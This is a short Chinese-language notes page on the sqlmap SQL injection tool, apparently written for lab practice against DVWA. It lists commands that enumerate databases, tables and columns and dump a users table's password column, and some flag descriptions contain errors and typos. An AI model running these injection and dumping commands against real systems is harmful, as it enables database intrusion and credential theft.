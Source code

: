 <!-- 
title: 05-SqlMap
sort: 
--> 

## 基础使用

- get方法

> `-Raw`: 文件
>
> `-Parameter`: 参数
>
> `--dbs`: 全部数据库
>
> `sqlmap -r xxx -p pwd --dbs`

- Post方法

> `--form`：form表单
>
> `--method`：方法
>
> `--data`：数据
>
> `sqlmap -u http://xxx/xxx.php --method=POST --forms --data="username" --dbs`

- 使用url

> `-Url`: 网址
>
> `sqlmap -u http://xxx -p pwd --dbs`

- 详细信息

> `-Database`: 数据库名称
>
> `-Table`: 数据表名称
>
> `-Columns`: 行名称
>
> 指定数据库下的数据表
>
> `sqlmap -r xxx -p id -D dvwa --tables`
>
> 表中的全部列
>
> `sqlmap -r xxx -p id -D dvwa -T users --columns`
>
> 表中的具体字段
>
> `sqlmap -r xxx -p id -D dvwa -T users -C user_id,avatar,password --dump`

- 直连

> `--users`: 用户信息
>
> `sqlmap -d "musql://root:1234@127.0.0.1:3306/dbname" -f --banner`

## 设置

- 请求方法

> `--data="id=1"`
>
> `--method=POST`